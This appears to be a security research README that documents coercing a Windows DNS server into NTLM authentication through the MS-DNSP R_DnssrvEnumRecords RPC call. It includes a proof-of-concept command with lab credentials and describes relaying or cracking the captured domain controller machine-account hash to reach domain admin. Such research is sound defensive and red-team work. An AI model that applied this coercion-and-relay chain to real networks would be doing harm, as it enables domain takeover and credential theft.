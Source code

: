 # MS-DNSP - Remote call to R_DnssrvEnumRecords (opnum 3)

## Summary

+ **Protocol**: [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a)

+ **Protocol UUID**: 50abc2a4-574d-40b3-9d66-ee4fd5fba076

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\DNSSERVER`

+ **Function name**: [`R_DnssrvEnumRecords`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d0251c9b-9e3e-4eec-bcc5-eb6b995b6108)

+ **Function operation number**: `3`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\DNSSERVER` and bind to the desired [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol (with uuid `50abc2a4-574d-40b3-9d66-ee4fd5fba076` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DNSP`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\DNSSERVER` This pipe is connected to the protocol [[MS-DNSP]: Domain Name Service (DNS) Server Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a) and allows to call RPC functions of this protocol. We will then call the remote [`R_DnssrvEnumRecords`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d0251c9b-9e3e-4eec-bcc5-eb6b995b6108) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
R_DnssrvEnumRecords('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
LONG R_DnssrvEnumRecords(
   [in]                                    handle_t             hBindingHandle,
   [in, unique, string]                    LPCWSTR              pwszServerName,
   [in, unique, string]                    LPCSTR               pszZone,
   [in, unique, string]                    LPCSTR               pszNodeName,
   [in, unique, string]                    LPCSTR               pszStartChild,
   [in]                                    WORD                 wRecordType,
   [in]                                    DWORD                fSelectFlag,
   [in, unique, string]                    LPCSTR               pszFilterStart,
   [in, unique, string]                    LPCSTR               pszFilterStop,
   [out]                                   PDWORD               pdwBufferLength,
   [out, size_is(, *pdwBufferLength)]      PBYTE*               ppBuffer
 );
```

## References

+ Documentation of protocol [MS-DNSP]: Domain Name Service (DNS) Server Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/f97756c9-3783-428b-9451-b376f877319a

+ Documentation of function `R_DnssrvEnumRecords`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/d0251c9b-9e3e-4eec-bcc5-eb6b995b6108